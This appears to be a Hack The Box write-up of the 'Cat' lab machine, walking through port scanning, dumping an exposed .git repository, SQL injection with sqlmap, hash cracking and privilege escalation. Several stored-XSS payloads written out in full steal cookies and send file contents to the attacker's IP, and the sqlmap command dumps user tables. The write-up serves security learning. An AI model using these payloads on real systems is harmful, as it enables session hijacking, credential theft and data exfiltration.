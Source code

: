 ```yaml
---
title: Cat - HTB
date: 2025-05-02 14:00:00 +0200
categories: [Hack The Box, Linux] 
tags: [Linux, priv-escalation, initial access, cat , XSS] 
toc: true
comments: true
image: ./assets/img/attachments/cat.png
imageNameKey: cat
---
```

In this writeup, I’ll be walking through the **Cat** machine from [Hack The Box](https://hackthebox.com), which is rated **Medium** in difficulty. This is the **fifth machine** I’m tackling as part of my journey to reach **1000 points**, and I’m documenting each step to reinforce my learning and help others in the community. The machine involves a mix of enumeration, web exploitation, and privilege escalation.
So lets start!
# Port Enumeration

I will start with scanning the most common ports
```bash
nmap -Pn -sV -F 10.10.11.53 -sC      
```
```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 11:56 EDT
Nmap scan report for 10.10.11.53
Host is up (0.36s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:2d:f5:c6:f6:9f:59:60:e5:65:85:ab:49:e4:76:14 (RSA)
|   256 9e:c4:a4:40:e9:da:cc:62:d1:d6:5a:2f:9e:7b:d4:aa (ECDSA)
|_  256 6e:22:2a:6a:6d:eb:de:19:b7:16:97:c2:7e:89:29:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://cat.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

I'll perform full port enumeration while taking a closer look at the HTTP service.
```bash
 sudo nmap -sS -Pn -p- 10.10.11.53 -A -n -T5
```
Got nothing new beyond what I found earlier.
# Content Discovery
```bash
ffuf -u http://cat.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 3

ffuf -u http://cat.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/raft-small-files.txt -e /.git/ -mc all -fc 404

```
![Whatever Alt Text You Want](/assets/img/attachments/cat-1.png)

As we can see, the `.git` repository is present — let's check if it's accessible.
```bash
curl -s http://cat.htb/.git/HEAD
curl -s http://cat.htb/.git/config
curl -s http://cat.htb/.git/index
curl -s http://cat.htb/.git/logs/HEAD

```
```bash
ref: refs/heads/master
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
0000000000000000000000000000000000000000 8c2c2701eb4e3c9a42162cfb7b681b6166287fd5 Axel <axel2017@gmail.com> 1725146774 +0000       commit (initial): Cat v1
```
Now we will get those files using git_dumper.py
```bash
python3 git_dumper.py http://cat.htb/.git/ ./cat-source
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-2.png)

We got all application codes, so lets analyze them to find vulnerable injection point

# Gaining Access
![Whatever Alt Text You Want](/assets/img/attachments/cat-3.png)

Those are the parameters that are reflected in the page, and only **admins** can view them (at view_cat.php)

![Whatever Alt Text You Want](/assets/img/attachments/cat-4.png)

At contest.php: 4 parameters out pf five are filtered, but username doesn't

![Whatever Alt Text You Want](/assets/img/attachments/cat-5.png)

And here at join.php we can see that username is added without any checks or validations on the input and also we knew the hashing algorithm used for passwords (md5)
But since username isn't reflected for me and just at view_cat.php I will make admin trigger stored XSS to steal his cookies
```bash
python -m http.server 
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-12.png)

```
<script>
new Image().src = 'https://10.10.16.87/?c=' + document.cookie;
</script>
```

![Whatever Alt Text You Want](/assets/img/attachments/cat-8.png)
I add a cat and waited

![Whatever Alt Text You Want](/assets/img/attachments/cat-9.png)
I got admin cookie

![Whatever Alt Text You Want](/assets/img/attachments/cat-10.png)

Now we can see admin panel which is accept_cat.php

![Whatever Alt Text You Want](/assets/img/attachments/cat-11.png)

Which is vulnerable to SQLi, so i used sqlmap to dump all tables
```bash
sqlmap -u http://cat.htb/accept_cat.php --data="catId=1&catName=test" --cookie="PHPSESSID=admin php ssid" --level=5 --risk=3 --dbs -p catName --dbms=sqlite --tables --dump -T users --threads 9
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-13.png)
I couldn't crack axel password but was able to get rosa password
```bash
hashcat -m 0 -a 0 d1bbba3670feb9435c9841e46e60ee2f /usr/share/wordlists/rockyou.txt

```

![Whatever Alt Text You Want](/assets/img/attachments/cat-14.png)

I was able to connect to this user by ssh
![Whatever Alt Text You Want](/assets/img/attachments/cat-15.png)
using the same python server on my machine, I downloaded linpeas.sh on victim's machine.

![Whatever Alt Text You Want](/assets/img/attachments/cat-16.png)

After checking this one:
![Whatever Alt Text You Want](/assets/img/attachments/cat-17.png)

using this password i was able to increase my privileges
![Whatever Alt Text You Want](/assets/img/attachments/cat-18.png)
And we got user flag!
# Privilege Escalation
![Whatever Alt Text You Want](/assets/img/attachments/cat-19.png)

Lets check those ports
```bash
ssh -L 3000:127.0.0.1:3000 axel@cat.htb

```
![Whatever Alt Text You Want](/assets/img/attachments/cat-20.png)

I found this website, and i logged in with axel's credentials, and the service version has exploits

![Whatever Alt Text You Want](/assets/img/attachments/cat-21.png)

```js
<a href="javascript:location.href='http://ip:8000?c='+document.cookie">XSS test</a>
```
But didn't work as the previous case where admin visits the page, something is missing

![Whatever Alt Text You Want](/assets/img/attachments/cat-22.png)
Lets check this one!
![Whatever Alt Text You Want](/assets/img/attachments/cat-23.png)

Mail must be sent to jobert, but we can see that this page doesn't have cookie header:
```js
<a href="javascript:alert(document.cookie)">Click me</a>
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-24.png)

**You must upload any file on the created repo to procced!**
I wanted to validate that the admin views the repo as mentioned at the mail
```js
<a href="javascript:fetch('http://10.10.16.87:8000/?ping=1')">Test</a>
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-25.png)

And since  i couldn't access this page : http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md
```js
<a href="javascript:
fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md')
.then(r => r.text())
.then(d => fetch('http://ip:8000/?leak=' + btoa(d)))
">Click me</a>

```
![Whatever Alt Text You Want](/assets/img/attachments/cat-26.png)
nothing important here
```
# Employee Management
Site under construction. Authorized user: admin. No visibility or updates visible to employees.
```

I tried to get the content of the other files at this repo, couldn't list them, but after guessing (trial and error) i got the content of index.php
```js
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php").then(response=>response.text()).then(data=>fetch("http://10.10.16.87:8000/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-27.png)

![Whatever Alt Text You Want](/assets/img/attachments/cat-28.png)

I couldn't log in to administrator account with this password but it worked as root password!
![Whatever Alt Text You Want](/assets/img/attachments/cat-29.png)

**And done!**  
That was a tough one — definitely one of the more challenging tasks I've tackled. But every step was a learning opportunity, and I gained a lot of valuable insight along the way. Looking forward to applying these lessons in future challenges!
